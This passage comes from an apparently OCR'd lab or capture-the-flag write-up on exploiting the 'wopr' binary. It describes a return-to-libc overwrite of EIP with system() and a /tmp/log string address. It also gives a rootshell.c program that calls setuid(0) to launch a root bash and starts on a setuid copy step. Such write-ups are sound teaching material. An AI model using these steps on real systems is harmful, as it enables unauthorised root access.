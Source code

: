 ```
for memcpy to work it needs to allow addresses that contain nulls as having an address with
a null in it is a legitimate scenario. So we don’t have to worry about this problem.
Ok, so we have our system() address, now we need the address of a string of an application
to launch . From past experiences I decided to find the address of a string in the binary
itself, I did this using:

**strings -t x /usr/local/bin/wopr** this prints the location of the string in hex.
A full path caught my eye immediately /tmp/log at location c60:

![wopr-strings.png](/assets/img/wopr/wopr-strings.png)

Why? Well /tmp is usually writeable to everyone so I should be able to replace this file if it
existed. Quickly verifying this I discovered it did not exist:

![wopr-tmp-log.png](/assets/img/wopr/wopr-tmp-log.png)

If we run info file from inside GDB, we can grab the entry point address:

![wopr-entry-point.png](/assets/img/wopr/wopr-entry-point.png)

If we take this address of 0x80486c0 and replace the last 3 characters with the hex location
from strings’ output of c60, we now get 0x8048**c60** this should be the address of /tmp/log
we can verify it in gdb using: **x/s 0x8048c60** this will inspect the string at this location –
as we can see this is fine:

![wopr-log-tmp-check.png](/assets/img/wopr/wopr-log-tmp-check.png)

All that's left to do is insert the system address at the location of EIP, 4 bytes of junk and
then location of /tmp/log right after, but before we do let's create a small file to place in the
location of /tmp/log. The first file I created is to just set uid to 0 to force the application to
run as root and launch /bin/bash, it's called rootshell.c 
```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
int main()
{
setuid( 0 );
system("/bin/bash");
return 0;
}
```

You can compile it with **gcc rootshell.c -o rootshell**, it should be copied onto the box the
same way as the other files by pasting the contents into nano at /tmp/exploit/rootshell.c

![wopr-rootshell.png](/assets/img/wopr/wopr-rootshell.png)

Log.c – this file will copy the rootshell executable we created to /tmp/rs and thus take
ownershop and then set the sticky bit on it, this will mean that when we run /tmp/rs it will
run /bin/bash as the root user:
